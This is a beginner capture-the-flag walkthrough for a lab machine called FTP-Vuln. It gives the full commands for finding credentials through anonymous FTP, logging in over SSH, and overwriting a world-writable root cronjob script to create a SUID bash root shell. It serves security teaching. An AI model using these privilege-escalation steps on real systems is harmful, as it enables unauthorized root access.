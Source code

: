 # FTP-Vuln
FTP-Vuln is a beginner-level machine designed to teach how to identify and exploit misconfigurations in network protocols. The goal is to escalate from basic user access to root access through a series of logical and accessible steps.
Write-Up: ftp-vuln – Boot-to-Root Walkthrough

Overview

Difficulty: Beginner

Target OS: Ubuntu Server 20.04

Services: FTP, SSH

Flags:

/home/thmuser/user.txt

/root/root.txt



Step 1: Service Enumeration

We begin by scanning the machine with nmap to discover open ports and service versions:

nmap -sC -sV -Pn <TARGET_IP>

Results:

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.x

Both FTP and SSH are open. Let's investigate FTP first.



Step 2: Anonymous FTP Access

Attempting to connect to the FTP server with anonymous login:

ftp <TARGET_IP>
Name: anonymous
Password: [ENTER]

Inside the FTP session, we list and download files from the files directory:

cd files
ls
get leeme.txt

The file leeme.txt contains the following credentials:

credenciales: thmuser:123456



Step 3: SSH Access

Now that we have valid credentials, we connect via SSH:

ssh thmuser@<TARGET_IP>
# Password: 123456

Once inside the system, we retrieve the first flag:

cat /home/thmuser/user.txt

Flag 1:

TryHackMe{user_flag}


Step 4: Privilege Escalation - Cronjob Discovery

We begin local enumeration to identify privilege escalation vectors:

cat /etc/cron.d/rootjob

Output:

* * * * * root /usr/local/bin/backup.sh

Checking the script:

ls -l /usr/local/bin/backup.sh

It has 777 permissions (-rwxrwxrwx), meaning any user can modify it.


Step 5: Exploit the Cronjob

We edit the vulnerable cronjob script to copy /bin/bash with the SUID bit set:

echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh

Wait about 1 minute for the cronjob to run. Then:

/tmp/rootbash -p
whoami

Output:

root

We now have a root shell.



Step 6: Capture the Final Flag

With root access, we can now retrieve the second and final flag:

cat /root/root.txt

Flag 2:

TryHackMe{root_flag}


Summary

Step	Action	Result

1	Service enumeration with Nmap	Found FTP and SSH
2	Anonymous FTP access	Leaked user credentials
3	SSH login with leaked creds	Gained access as thmuser
4	Found vulnerable root cronjob	/usr/local/bin/backup.sh
5	Injected payload for root shell	Root via cronjob
6	Captured user.txt and root.txt	Machine fully pwned 

Machine created by: orami
